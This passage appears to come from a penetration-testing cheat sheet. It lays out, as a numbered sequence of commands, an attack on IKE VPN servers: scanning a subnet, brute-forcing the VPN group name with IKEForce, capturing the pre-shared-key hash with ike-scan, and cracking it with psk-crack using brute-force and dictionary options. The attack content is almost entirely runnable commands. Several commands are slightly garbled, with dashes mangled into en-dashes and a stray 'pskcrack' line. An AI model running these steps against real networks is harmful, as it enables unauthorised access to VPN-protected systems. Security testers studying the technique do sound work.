 </ol>
<h5 id="step-1-idenitfy-ike-servers">
Step 1: Idenitfy IKE Servers
</h5>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>./udp-protocol-scanner.pl -p ike SUBNET/24
</code></pre>
:::
::::

<h5 id="step-2-enumerate-group-name-with-ikeforce">
Step 2: Enumerate group name with IKEForce
</h5>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic
</code></pre>
:::
::::

<h5 id="step-3-use-ike-scan-to-capture-the-psk-hash">
Step 3: Use ike-scan to capture the PSK hash
</h5>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>ike-scan –M –A –n example_group -P hash-file.txt TARGET-IP
</code></pre>
:::
::::

<h5 id="step-4-use-psk-crack-to-crack-the-psk-hash">
Step 4: Use psk-crack to crack the PSK hash
</h5>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>psk-crack hash-file.txt
</code></pre>
:::
::::

<p>
Some more advanced psk-crack options below:
</p>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>pskcrack
psk-crack -b 5 TARGET-IPkey
psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key
psk-crack -d /path/to/dictionary-file TARGET-IP-key
</code></pre>
:::
::::
